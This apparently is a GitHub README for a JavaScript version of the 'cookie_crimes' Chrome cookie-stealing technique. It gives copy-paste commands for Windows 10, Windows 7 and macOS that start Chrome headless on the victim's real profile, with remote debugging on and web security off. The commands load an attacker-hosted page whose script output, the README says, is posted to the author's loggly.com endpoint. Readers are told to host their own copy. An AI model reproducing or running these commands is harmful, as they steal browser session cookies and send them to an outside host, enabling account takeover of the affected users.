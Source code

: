 This is a javascript implementation of the [cookie_crimes tool](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password) by @mangopdf

Running the command below will run the javascript found in the *index.html* file of this repo which has been setup using Github Pages. It is currently harcoded to post the script output to my own loggly.com URL. Host it on your own github to control the script completely and enable GitHub pages in your repository settings to serve the page as an HTML file.

# Windows

## Windows 10

```"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/TestCC/```

## Windows 7

```%localAppData%"\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/TestCC/```

# OS X

```"/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="$HOME/Library/Application Support/Google/Chrome" --disable-plugins https://clr2of8.github.io/TestCC/```
